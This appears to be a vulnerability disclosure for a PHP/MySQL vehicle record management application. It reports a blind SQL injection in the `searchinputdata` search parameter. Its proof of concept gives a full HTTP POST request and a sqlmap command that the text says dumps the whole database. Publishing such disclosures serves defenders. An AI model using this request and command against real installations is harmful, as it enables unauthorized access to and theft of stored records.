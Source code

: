 # Vehicle_Record_Management_System
Vehicle Record Management System using PHP and MySQL

# Auditor:
Shouvik Dutta <a href="https://www.linkedin.com/in/shouvik-dutta/">@shouvik_dutta</a>

# Description: 
Blind SQL Injection detected in Vehicle Record Management Project

Index Page - Search button is vulnerable to Blind SQL Injection

The Vehicle Record Management system application contains a vulnerability in the `searchinputdata` parameter on the index page. This parameter is vulnerable to a Blind SQL Injection attack due to improper sanitization of user input. An attacker can manipulate the `searchinputdata` input to execute crafted SQL queries, allowing them to dump the entire database, as the application's responses vary based on the injected queries. This vulnerability can be exploited by sending malicious input through the search functionality and observing subtle changes in the application's behavior or response times.

Vulnerable Endpoint - /index.php ; 
Vulnerable Parameter - `searchinputdata`

# PoCs

`Vulnerable URL: /index.php`
```
POST Request

POST / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost
Connection: close
Referer: http://localhost/
Cookie: PHPSESSID=77ucjdgusue0vgbu0ouv7kcrqu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

searchinputdata=BLIND_SQL_VULNERABLE&Submit=Submit
```
1. Save the above POST Request to sql.txt using notepad or any text editor.
2. Use tool such as SQLMAP to exploit the above by applying this command (you can customize yours):
   `sqlmap -r sql.txt -p 'searchinputdata' --dbs --random-agent --level 3 --risk 3`
3. The above command will dump the entire database of the web application.
